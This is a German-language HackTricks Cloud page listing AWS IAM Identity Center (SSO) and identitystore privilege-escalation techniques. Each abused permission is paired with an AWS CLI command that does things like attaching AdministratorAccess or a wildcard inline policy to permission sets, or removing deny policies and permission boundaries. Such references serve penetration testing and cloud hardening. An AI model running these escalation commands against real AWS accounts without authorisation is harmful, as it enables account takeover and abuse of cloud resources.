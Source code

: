 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Für weitere Informationen über AWS Identity Center / AWS SSO siehe:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Beachten Sie, dass **standardmäßig** nur **Benutzer** mit Berechtigungen **aus** dem **Management-Konto** auf das **IAM Identity Center** zugreifen und es **steuern** können.\
Benutzer aus anderen Konten können dies nur zulassen, wenn das Konto ein **Delegierter Administrator** ist.\
[Überprüfen Sie die Dokumentation für weitere Informationen.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Passwort zurücksetzen~~

Ein einfacher Weg, um Privilegien in Fällen wie diesem zu eskalieren, wäre, eine Berechtigung zu haben, die es ermöglicht, die Passwörter der Benutzer zurückzusetzen. Leider ist es nur möglich, eine E-Mail an den Benutzer zu senden, um sein Passwort zurückzusetzen, sodass Sie Zugriff auf die E-Mail des Benutzers benötigen.

### `identitystore:CreateGroupMembership`

Mit dieser Berechtigung ist es möglich, einen Benutzer in eine Gruppe zu setzen, sodass er alle Berechtigungen der Gruppe erbt.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen zu einem Berechtigungsset gewähren, das einem Benutzer unter seiner Kontrolle gewährt wird.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen zu einem Berechtigungsset hinzufügen, das einem Benutzer unter seiner Kontrolle gewährt wird.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen zu einem Berechtigungsset gewähren, das einem Benutzer unter seiner Kontrolle gewährt wird.

{% hint style="warning" %}
Um diese Berechtigungen in diesem Fall auszunutzen, müssen Sie den **Namen einer kundenverwalteten Richtlinie kennen, die in ALLEN betroffenen Konten vorhanden ist**.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Ein Angreifer mit dieser Berechtigung könnte einem Benutzer unter seiner Kontrolle ein Berechtigungsset für ein Konto zuweisen.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Gibt die STS- kurzfristigen Anmeldeinformationen für einen bestimmten Rollennamen zurück, der dem Benutzer zugewiesen ist.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Sie benötigen jedoch ein Zugriffstoken, dessen Beschaffung mir unklar ist (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Zuordnung zwischen einer AWS verwalteten Richtlinie und dem angegebenen Berechtigungsset entfernen. Es ist möglich, mehr Berechtigungen zu gewähren, indem eine verwaltete Richtlinie (Ablehnungsrichtlinie) abgetrennt wird.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Zuordnung zwischen einer von Kunden verwalteten Richtlinie und dem angegebenen Berechtigungsset entfernen. Es ist möglich, weitere Berechtigungen zu gewähren, indem eine verwaltete Richtlinie (Ablehnungsrichtlinie) abgetrennt wird.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Berechtigungen aus einer Inline-Richtlinie des Berechtigungssets entfernen. Es ist möglich, **mehr Berechtigungen zu gewähren, indem eine Inline-Richtlinie (Verweigerungsrichtlinie) abgetrennt wird**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Berechtigungsgrenze aus dem Berechtigungsset entfernen. Es ist möglich, **mehr Berechtigungen zu gewähren, indem die Einschränkungen des Berechtigungssets, die von der Berechtigungsgrenze gegeben werden, entfernt werden.**

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
